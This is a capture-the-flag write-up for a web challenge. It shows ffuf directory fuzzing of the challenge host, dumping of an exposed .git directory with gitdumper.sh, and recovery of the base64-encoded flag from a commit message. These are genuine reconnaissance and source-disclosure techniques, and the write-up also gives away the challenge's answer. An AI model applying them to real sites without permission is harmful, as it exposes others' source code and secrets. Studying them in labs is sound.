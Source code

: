 ```yaml
---
title: "🗂️ Commit and Order"
date: 2025-04-27 14:30:00 +02:00
categories: [Writeup, "CIT@CTF"]
tags: [CIT@CTF, security, web]
---
```

# Writeup - CIT CTF Challenge: Commit & Order: Version Control Unit

## 📋 Challenge Information
- **Name**: Commit & Order: Version Control Unit
- **Category**: Web
- **Description**: "In software development, the repository is represented by two separate yet equally important branches..."

---

## 🛠️ Solution

The task description tipped me off that this would be a Git-related task.

The first thing I did was to enumerate the site's directories using `ffuf`.

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://23.179.17.40:58002/FUZZ
```
Indeed, there was a .git directory available

```plaintext


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://23.179.17.40:58002/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git/logs/              [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 1673ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 2671ms]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 2674ms]
.git                    [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 4680ms]
.git/config             [Status: 200, Size: 155, Words: 13, Lines: 9, Duration: 4681ms]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4685ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4685ms]
.git/index              [Status: 200, Size: 209, Words: 3, Lines: 2, Duration: 4686ms]
admin.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 132ms]
index.php               [Status: 200, Size: 2467, Words: 915, Lines: 103, Duration: 132ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 132ms]
:: Progress: [4744/4744] :: Job [1/1] :: 302 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

To further analyze this repository, I used the GitTools (https://github.com/internetwache/GitTools). I dumped everything using `gitdumper.sh`

```bash
./gitdumper.sh http://23.179.17.40:58002/.git/ git
```

I checked all the commits that took place and their contents to find the flag there. In order to do that, I used the following command, which only cut out the ID of the given commit and passed it to `git show` command

```bash
sudo git log | grep commit | cut -d " " -f2 | xargs sudo git show
```
In one of the commits there was this message:

```plaintext
This admin panel is under construction. No actual functionality is available yet. But here, have this: Q0lUezVkODFmNzc0M2Y0YmMyYWJ9
```
After decoding this (`Q0lUezVkODFmNzc0M2Y0YmMyYWJ9`) with base64, I obtained the flag.

---

## 🎴 Flag

```plaintext
CIT{5d81f7743f4bc2ab}
```
---

